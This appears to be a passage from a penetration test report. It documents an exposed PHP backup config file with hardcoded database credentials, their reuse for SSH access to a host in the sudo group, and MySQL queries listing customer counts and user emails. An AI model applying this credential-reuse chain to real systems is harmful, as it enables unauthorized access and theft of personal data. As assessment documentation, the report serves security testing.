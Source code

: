 **Exposed Configuration File Content**
```php
// config.php.bak - EXPOSED CREDENTIALS
<?php
$db_host = "localhost";
$db_user = "webapp_user";
$db_pass = "WebApp2023!Secure";
$db_name = "customer_portal";

// Connection string
$conn = mysqli_connect($db_host, $db_user, $db_pass, $db_name);
?>
```

**Exploitation - SSH Access**
```bash
# Credential Reuse Testing
ssh sysadmin@10.50.1.45
Password: WebApp2023!Secure

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-84-generic x86_64)
Last login: Mon Sep 13 10:23:45 2025 from 10.50.1.150

sysadmin@web-app-01:~$ id
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),sudo

sysadmin@web-app-01:~$ whoami
sysadmin

# SUCCESS: Initial access obtained
```

**Database Access Evidence**
```sql
mysql -h 10.50.1.45 -u webapp_user -p'WebApp2023!Secure'

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| customer_portal    |
| mysql              |
+--------------------+

mysql> USE customer_portal;
mysql> SELECT COUNT(*) FROM customers;
+----------+
| COUNT(*) |
+----------+
|     2847 |
+----------+

mysql> SELECT username, email FROM users LIMIT 3;
+-------------+------------------------+
| username    | email                  |
+-------------+------------------------+
| admin       | admin@vanguardfs.com   |
| jsmith      | j.smith@vanguardfs.com |
| mrodriguez  | m.rodriguez@vanguardfs |
+-------------+------------------------+

# RESULT: 2,847 customer records accessible
```

---